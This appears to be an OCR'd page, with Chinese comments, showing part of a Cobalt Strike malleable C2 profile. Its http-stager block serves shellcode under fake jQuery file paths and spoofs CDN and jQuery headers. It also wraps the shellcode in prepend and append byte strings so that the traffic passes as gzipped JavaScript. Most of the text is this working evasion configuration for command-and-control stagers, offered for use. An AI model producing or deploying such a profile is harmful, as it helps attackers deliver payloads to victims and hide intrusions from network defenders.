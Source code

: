 ```powershell
                         57F SetUnhandledExceptionFilter
                         5C0 UnhandledExceptionFilter
                         4E3 RtlVirtualUnwind
                         4DC RtlLookupFunctionEntry
                         4D5 RtlCaptureContext
                         281 GetModuleHandleW
```

profile文件需要将http-stager中的server中的prepend修改成对应长度字符

```js
http-stager {  
    set uri_x86 "/jquery-3.3.1.slim.min.js";
    #32位系统
    set uri_x64 "/jquery-3.3.2.slim.min.js";
    #64位系统
    client {
 	header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Accept-Language" "en-US,en;q=0.5";
        #header "Host" "code.jquery.com";
        header "Referer" "http://code.jquery.com/";
        header "Accept-Encoding" "gzip, deflate";
    }
    server {
        #服务器回显内容
        header "Server" "NetDNA-cache/2.2";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";
        output {
            prepend "\x1F\x8B\x08\x08\xF0\x70\xA3\x50\x00\x03\x01";
            #shellcode前面追加的内容
            append "\x7F\x01\xDD\xAF\x58\x52\x07\x00";
            #shellcode后面追加的内容
            print;
        }
    }
}
```

